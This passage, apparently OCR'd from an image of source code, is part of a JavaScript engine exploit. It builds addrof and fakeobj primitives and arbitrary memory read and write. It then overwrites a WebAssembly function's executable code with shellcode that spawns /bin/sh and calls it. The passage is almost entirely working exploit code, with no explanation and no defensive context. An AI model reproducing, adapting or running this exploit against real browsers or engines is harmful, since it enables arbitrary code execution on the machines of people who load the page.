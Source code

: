     var unboxed2 = [1.1];
    unboxed2[0] =3.3;

    var boxed2 = [{}]

    hax[1] = i2f(addrof(unboxed2))
    var shared = victim[1];
    hax[1] = i2f(addrof(boxed2))
    victim[1] = shared;

    var stage2={
        addrof: function(obj){
            boxed2[0] = obj;
            return f2i(unboxed2[0]);
        },
        fakeobj: function(addr){
            unboxed2[0] = i2f(addr);
            return boxed2[0];
        },
        read64: function(addr){
            hax[1] = i2f(addr + 0x10);
            return this.addrof(victim.prop);
        },
        write64: function(addr,data){
            hax[1] = i2f(addr+0x10);
            victim.prop = this.fakeobj(data)
        },
        write: function(addr, shellcode) {
            var theAddr = addr;
            for(var i=0;i<shellcode.length;i++){
                this.write64(addr+i,shellcode[i].charCodeAt())
            }
        },
        pwn: function(){
            var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
            var wasm_mod = new WebAssembly.Module(wasm_code);
            var wasm_instance = new WebAssembly.Instance(wasm_mod);
            var f = wasm_instance.exports.main;
            var addr_f = this.addrof(f);
            var addr_p = this.read64(addr_f + 0x40);
            var addr_shellcode = this.read64(addr_p);
            print(addr_f.toString(16))
            print(addr_p.toString(16))
            print(addr_shellcode.toString(16));
            shellcode = "j;X\x99RH\xbb//bin/shST_RWT^\x0f\x05"
            this.write(addr_shellcode, shellcode);
            f();
        }
    }
